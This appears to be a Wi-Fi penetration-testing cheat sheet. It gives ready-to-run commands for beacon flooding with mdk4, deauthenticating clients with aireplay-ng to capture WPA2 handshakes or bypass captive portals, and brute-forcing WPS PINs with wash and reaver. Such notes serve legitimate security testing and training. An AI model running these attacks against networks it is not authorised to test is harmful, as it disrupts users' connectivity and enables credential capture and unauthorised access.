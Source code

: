 # Open Network

## Beacon flood attack
Beacon flood attack is more a nuisance attack linked to 802.11 protocol weaknesses.
- https://github.com/aircrack-ng/mdk4

You can randomly create SSID or give specific wordlist for SSID names.
```
mdk4 wlan1 b -a -g -f ssid_names.txt
```

<img src="./images/beaconflood.png" width="300"/>

## Deauthentication attack
Deauthentication attack is possible because within WPA2 (PSK and Enterprise (MGT)) the management frames are not protected. Its also more of a nuisance attack but can be usefull (comparing to beacon flood) to deauthenticate an STA (station/client) to intercept WPA2-handshake or redirect STA (station/client) to authenticate against your fake **Radius** server (WPA2-Enterprise).  

--> Deauthentication can also be usefull when bypassing Captive Portal, to force client to reconnect and get their MAC address.  

Deauth using aireplay-ng (-c : client is optional)
```
aireplay-ng -0 100 -a BSSID -c STA/CLIENT wlan1
```

# WPS Pin

Checking within a capture the WLAN with WPS enable
```
wps.wifi_protected_setup_state==2
```

Install reaver
```
sudo apt install reaver
```

Identify device using WPS
```
sudo wash -i wlx00c0ca996340
```

Attacking specific BSSID
```
sudo reaver -i wlx00c0ca996340 -c 1 -b C0:3C:04:02:16:48 -vv
```

# Guest Network

### Guest network without password
MAC based restriction or captive portal are bypassable security solution but providing Guest network without password can be worst.
